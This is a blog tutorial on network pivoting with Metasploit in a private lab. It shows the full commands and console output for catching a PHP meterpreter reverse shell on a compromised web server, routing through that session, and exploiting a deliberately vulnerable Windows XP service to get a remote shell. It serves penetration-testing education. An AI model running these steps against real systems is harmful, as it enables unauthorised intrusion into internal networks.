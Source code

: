 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 4: Metasploit"
date: 2012-10-22 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-4.html
---
```


In this article, we'll look at pivoting using [Metasploit](http://www.metasploit.com/). If you have the option to use Metasploit, you'll find that it makes pivoting much easier. Metasploit can be installed on Linux, Windows, and Mac OS X, which makes it a pretty versatile tool. The number of modules included in the framework grows continuously, and its low learning curve makes it popular among hackers. 

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

->![](/images/2012-10-22/01.jpg)<-

We've already compromised the web server and obtained some form of shell access to it, such as a reverse shell for instance. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine. 

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I ported the python exploit we used in the previous articles into a Metasploit module which can be downloaded [here](http://techorganic.com/software/serverstrcpy.rb). It should be saved in ~/.msf4/modules/exploits/windows/misc/. 

### The attack

We begin by gaining access to the web server with Metasploit. We've created a PHP reverse meterpreter shell payload using php/meterpreter_reverse_tcp. This was copied to the web server and will connect back to our machine and give us a meterpreter shell when we load it. Let's start up our handler and gain our meterpreter shell: 

```
# msfcli exploit/multi/handler PAYLOAD=php/meterpreter_reverse_tcp LHOST=192.168.81.125 LPORT=9999 E
[*] Please wait while we load the module tree...
 
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
 
     Trace program: running
 
           wake up, Neo...
        the matrix has you
      follow the white rabbit.
 
          knock, knock, Neo.
 
                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`
 
 
       =[ metasploit v4.5.0-dev [core:4.5 api:1.0]
+ -- --=[ 961 exploits - 508 auxiliary - 153 post
+ -- --=[ 257 payloads - 28 encoders - 8 nops
 
PAYLOAD => php/meterpreter_reverse_tcp
LHOST => 192.168.81.125
LPORT => 9999
[*] Started reverse handler on 192.168.81.125:9999 
[*] Starting the payload handler...
[*] Meterpreter session 1 opened (192.168.81.125:9999 -> 192.168.81.181:64796) at 2012-10-05 16:26:12 -0400
 
meterpreter >
```

We've obtained a meterpreter shell on the web server. We'll need to background meterpreter so we can setup our pivot. To do this, we can use Metasploit's route command to associate the new route to our meterpreter session: 

```
meterpreter > background
[*] Backgrounding session 1...
msf  exploit(handler) > route add 192.168.63.0 255.255.255.0 1
[*] Route added
msf  exploit(handler) > route print
 
Active Routing Table
====================
 
   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.63.0       255.255.255.0      Session 1
 
msf  exploit(handler) >
```

Our pivot setup is now complete. Let's test it by exploiting Server-Strcpy using the serverstrcpy exploit module. The target port is already set to port 1000 by default, so all we have to do is specify the target IP address and the payload. For this example, we'll use the windows/shell_bind_tcp payload: 

```
msf  exploit(handler) > use exploit/windows/misc/serverstrcpy 
msf  exploit(serverstrcpy) > set RHOST 192.168.63.142
RHOST => 192.168.63.142
msf  exploit(serverstrcpy) > set PAYLOAD windows/shell_bind_tcp 
PAYLOAD => windows/shell_bind_tcp
msf  exploit(serverstrcpy) > exploit 
 
[*] Started bind handler
[*] Trying target Windows XP Pro SP2 English...
 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\Documents and Settings\Administrator\Desktop>        
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the target. This was an extremely easy setup, basically just using the route command within Metasploit to setup the pivot. 

This article concludes the series on introduction to pivoting. I started this series as a way to showcase different pivoting techniques that I hoped would be helpful to beginners. If the rules of engagement allow it, pivoting will allow you to show your clients just how serious a security breach can become if an attacker can tunnel deep into the network. 

